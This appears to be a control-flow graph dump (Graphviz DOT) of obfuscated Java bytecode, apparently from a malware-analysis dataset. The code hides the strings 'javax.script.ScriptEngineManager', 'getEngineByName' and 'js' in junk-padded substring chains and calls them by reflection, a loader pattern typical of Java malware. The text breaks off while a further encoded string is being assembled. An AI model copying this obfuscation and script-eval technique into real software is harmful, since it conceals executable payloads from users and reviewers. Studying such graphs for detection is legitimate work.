 digraph "" {
    "r0 := @this: ddvscsrddjbsceqh"
    "push 0"
    "r0 := @this: ddvscsrddjbsceqh"->"push 0";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "pop"
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "push 1"
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "new javax.script.ScriptEngineManager"
    "pop"->"new javax.script.ScriptEngineManager";
    "store.r r1"
    "new javax.script.ScriptEngineManager"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "load.r r1"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 1";
    "push 1"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "new java.lang.StringBuilder"
    "pop"->"new java.lang.StringBuilder";
    "dup1.r"
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"RGWajaMhz4\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"RGWajaMhz4\"";
    "push 4"
    "push \"RGWajaMhz4\""->"push 4";
    "push 6"
    "push 4"->"push 6";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"TRvard\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"TRvard\"";
    "push 2"
    "push \"TRvard\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"tax.5EB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"tax.5EB\"";
    "push \"tax.5EB\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"0ZschN\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"0ZschN\"";
    "push \"0ZschN\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"w3rip7ylM\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"w3rip7ylM\"";
    "push \"w3rip7ylM\""->"push 2";
    "push 5"
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Bft.Y8\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Bft.Y8\"";
    "push \"Bft.Y8\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"lQSc4P5\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"lQSc4P5\"";
    "push \"lQSc4P5\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"VZripy8\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"VZripy8\"";
    "push \"VZripy8\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"qYtE6Yg\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"qYtE6Yg\"";
    "push \"qYtE6Yg\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"uUJZng8h\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"uUJZng8h\"";
    "push \"uUJZng8h\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"zyinemB\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"zyinemB\"";
    "push \"zyinemB\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"BlMazCr\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"BlMazCr\"";
    "push \"BlMazCr\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"rAnaYm\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"rAnaYm\"";
    "push \"rAnaYm\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"WvgeU3\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"WvgeU3\"";
    "push \"WvgeU3\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"harFtYQ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"harFtYQ\"";
    "push \"harFtYQ\""->"push 2";
    "push 3"
    "push 2"->"push 3";
    "push 3"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"load.r r1";
    "load.r r1"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"8csget6Y\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"8csget6Y\"";
    "push \"8csget6Y\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"u3EngbL\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"u3EngbL\"";
    "push \"u3EngbL\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"gdinaz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"gdinaz\"";
    "push \"gdinaz\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"heeB7l1k\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"heeB7l1k\"";
    "push \"heeB7l1k\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"2UgyNe2\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"2UgyNe2\"";
    "push \"2UgyNe2\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6NUK4amezY\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6NUK4amezY\"";
    "push \"6NUK4amezY\""->"push 5";
    "push 8"
    "push 5"->"push 8";
    "push 8"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push class \"Ljava/lang/String;\""
    "push 0"->"push class \"Ljava/lang/String;\"";
    "arraywrite.r"
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push \"hdjsYpby\""
    "push 0"->"push \"hdjsYpby\"";
    "push \"hdjsYpby\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"arraywrite.r";
    "staticinvoke <ddvscsrddjbsceqh: java.lang.Object Eedfeedk(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"
    "arraywrite.r"->"staticinvoke <ddvscsrddjbsceqh: java.lang.Object Eedfeedk(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>";
    "checkcast"
    "staticinvoke <ddvscsrddjbsceqh: java.lang.Object Eedfeedk(java.lang.String,java.lang.Object,java.lang.String,java.lang.Class[],java.lang.Object[])>"->"checkcast";
    "checkcast"->"store.r r1";
    "store.r r1"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "pop"->"push 0";
    "push 0"->"staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>";
    "staticinvoke <java.lang.Boolean: java.lang.Boolean valueOf(boolean)>"->"pop";
    "load.r r0"
    "pop"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "push \"eP8zr667vH\""
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"eP8zr667vH\"";
    "push \"eP8zr667vH\""->"push 5";
    "push 5"->"push 8";
    "push 8"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"3KMP56epu\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"3KMP56epu\"";
    "push \"3KMP56epu\""->"push 4";
    "push 7"
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"6V63At\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"6V63At\"";
    "push \"6V63At\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"YY74yC\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"YY74yC\"";
    "push \"YY74yC\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"8aUP69RY\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"8aUP69RY\"";
    "push \"8aUP69RY\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"kb6f66n\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"kb6f66n\"";
    "push \"kb6f66n\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"e0e20zZ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"e0e20zZ\"";
    "push \"e0e20zZ\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"hsr5127\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"hsr5127\"";
    "push \"hsr5127\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"4r6aewsz\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"4r6aewsz\"";
    "push \"4r6aewsz\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"UU47B0\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"UU47B0\"";
    "push \"UU47B0\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"UKt59rY\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"UKt59rY\"";
    "push \"UKt59rY\""->"push 3";
    "push 3"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"j1SM6c7zm\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"j1SM6c7zm\"";
    "push \"j1SM6c7zm\""->"push 4";
    "push 4"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"G3Vzm74UGQ\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"G3Vzm74UGQ\"";
    "push \"G3Vzm74UGQ\""->"push 5";
    "push 5"->"push 7";
    "push 7"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"hwa6At\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"hwa6At\"";
    "push \"hwa6At\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"DL145yhT\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"DL145yhT\"";
    "push \"DL145yhT\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Qha6YG\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Qha6YG\"";
    "push \"Qha6YG\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Bj72VN\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Bj72VN\"";
    "push \"Bj72VN\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"HP82yyDq\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"HP82yyDq\"";
    "push \"HP82yyDq\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"WH97buT\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"WH97buT\"";
    "push \"WH97buT\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Ag6525w\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Ag6525w\"";
    "push \"Ag6525w\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"hF03YzPF\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"hF03YzPF\"";
    "push \"hF03YzPF\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Wpd20PUH\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Wpd20PUH\"";
    "push \"Wpd20PUH\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"UT6eHN\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"UT6eHN\"";
    "push \"UT6eHN\""->"push 2";
    "push 2"->"push 4";
    "push 4"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"zUk657Gb\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"zUk657Gb\"";
    "push \"zUk657Gb\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"ad6720sH\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"ad6720sH\"";
    "push \"ad6720sH\""->"push 3";
    "push 3"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"1k4578y\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"1k4578y\"";
    "push \"1k4578y\""->"push 2";
    "push 2"->"push 5";
    "push 5"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"Ma5827bS\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"Ma5827bS\"";
    "push \"Ma5827bS\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
    "virtualinvoke <java.lang.String: java.lang.String substring(int,int)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"MmD126bf\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"MmD126bf\"";
    "push \"MmD126bf\""->"push 4";
    "push 4"->"push 6";
    "push 6"->"virtualinvoke <java.lang.String: java.lang.String substring(int,int)>";
